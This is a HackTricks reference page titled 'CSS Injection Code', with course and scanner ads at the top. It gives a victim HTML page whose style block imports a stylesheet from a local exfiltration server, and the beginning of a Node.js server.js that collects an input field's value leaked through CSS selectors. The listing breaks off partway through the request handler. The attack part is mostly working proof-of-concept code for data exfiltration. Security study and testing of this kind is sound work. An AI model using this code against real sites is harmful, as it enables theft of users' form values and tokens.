 # CSS Injection Code

<details><summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary></details>

<figure><img src="/.gitbook/assets/image (675).png" alt=""><figcaption></figcaption></figure>

Find vulnerabilities that matter most so you can fix them faster. Intruder tracks your attack surface, runs proactive threat scans, finds issues across your whole tech stack, from APIs to web apps and cloud systems. [**Try it for free**](https://www.intruder.io/?utm\_source=referral\&utm\_campaign=hacktricks) today.

{% embed url="https://www.intruder.io/?utm_campaign=hacktricks&utm_source=referral" %}

***

{% code title="victim.html" %}
```html
<!doctype html>
<body>
<div><article><div><p><div><div><div><div><div>
<input type="text" value="1234567890">
<style>
@import url('//localhost:5001/start?');
</style>
```
{% code title="server.js" %}
```javascript
const http = require('http');
const url = require('url');

// Port to exfiltrate to
const port = 5001;
// Host to exfiltrate to
const HOSTNAME = "http://localhost:5001";
const DEBUG = false;

var prefix = "", postfix = "";
var pending = [];
var stop = false, ready = 0, n = 0;

const requestHandler = (request, response) => {
let req = url.parse(request.url, url);
log('\treq: %s', request.url);

//If stop, leakeage is finished
if (stop) return response.end();

switch (req.pathname) {
// This only launched when starting the leakeage
case "/start":
genResponse(response);
break;

// Everytime something is leaked
```